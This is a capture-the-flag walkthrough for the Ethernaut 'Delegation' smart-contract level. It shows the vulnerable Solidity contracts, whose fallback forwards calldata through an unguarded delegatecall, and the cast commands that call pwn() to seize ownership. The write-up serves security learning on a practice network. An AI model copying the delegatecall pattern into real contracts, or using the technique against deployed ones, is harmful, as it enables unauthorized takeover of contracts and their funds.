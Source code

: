 ## Delegation Level Outline

**Difficulty : 4/10**

The goal of this level is for you to claim ownership of the instance you are given.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Delegate {

  address public owner;

  constructor(address _owner) public {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) public {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0x0b6F6CE4BCfB70525A31454292017F640C10c768)

## Solution

We can **spoof** the delegate call by sending a transation that contains the function signature to the "pwn()" function.

### Walkthrough

##### 1. Getting the methodId for the pwn() function
```console
cast calldata "pwn()"
```
output
```console
0xdd365b8b
```
##### 2. Making a call to the fallback function where `msg.data` equals the calcualted methodId
```console
cast send $LEVEL_ADDRESS 0xdd365b8b --gas 50000 --private-key $PRIVATE_KEY 
```
> we need to set a custom gas limit for this transaction as the default amount insufficient

## Further Reading
[Video on Delegatecall](https://www.youtube.com/watch?v=uawCDnxFJ-0&t=208s)

[More info about methodId](https://docs.soliditylang.org/en/v0.8.13/abi-spec.html)



### [:arrow_left: Back To Main Menu](../)
